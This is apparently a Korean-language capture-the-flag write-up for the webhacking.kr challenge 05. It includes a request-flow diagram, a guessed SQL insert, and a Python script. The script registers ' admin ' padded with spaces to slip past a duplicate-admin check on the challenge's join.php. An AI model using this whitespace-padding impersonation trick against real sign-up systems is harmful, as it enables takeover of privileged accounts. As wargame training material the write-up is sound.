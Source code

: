 ================================================================================================================
[webhacking.kr] 05
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="join.php",arrowhead="normal"];
        step3 -> step2[label="javascript Obfuscated",arrowhead="normal"];
        step4 -> step5[label="id= admin&pw=1234",arrowhead="normal"];
        step7 -> step6[label="Add user",arrowhead="normal"];
    }

|

server -> DB 예측
================================================================================================================

- PHP
- POST 파라미터: id, pw

.. code-block:: sql

    insert into tb_name(id,pw)
    value($_POST["id"],$_POST["pw"])

|

insert
================================================================================================================

- 해당 페이지로 admin을 가입하면 오류 메시지가 발생하는데, space를 넣어 가입할 경우 정상적으로 가입된다. 
- 아마, trim 함수를 통해 id를 확인하는 것으로 보인다.

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-05/mem/join.php"
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    data = {
        "id":" admin ",
        "pw":"1234"
    }

    r = requests.post(url, data=data, cookies = cookies, verify=False)

    print r.content

|
